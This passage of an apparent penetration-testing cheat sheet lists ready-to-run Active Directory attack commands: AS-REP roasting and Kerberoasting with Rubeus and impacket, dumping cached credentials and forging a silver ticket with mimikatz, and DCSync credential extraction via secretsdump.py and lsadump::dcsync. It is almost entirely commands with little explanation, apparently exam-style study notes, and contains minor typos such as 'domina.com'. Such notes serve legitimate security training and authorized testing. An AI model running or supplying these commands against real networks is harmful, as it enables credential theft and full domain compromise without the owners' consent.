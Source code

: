 ### Rubeus
```
.\Rubeus.exe asreproast /nowrap
```

## Kerberoasting

### Rubeus
```
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```
### impacket
```
impacket-GetUserSPNs -request -dc-ip 192.168.10.10. domain.com/douglas
```

## Silver Tickets

We need to collect three pieces of information:
- SPN password hash
- Domain SID
- Target SPN

Using mimikatz to extract cached AD credentials:
```
privilege::debug
```

```
sekurlsa::logonpasswords
```
From the dump presented from mimikatz, we can get the sid for our admin, the service for the silver ticket and the user

```
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:domain.com /ptt /target:website.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:admin
```

Now, confirm with `klist` that we have a service ticket

## Domain Controller Synchronization

### impacket
```
secretsdump.py domain.com/username@$rhost -just-dc-user Administrator
```

### mimikatz
```
lsadump::dcsync /domain:domina.com /user:dcsyncuser
```
# Lateral Movement
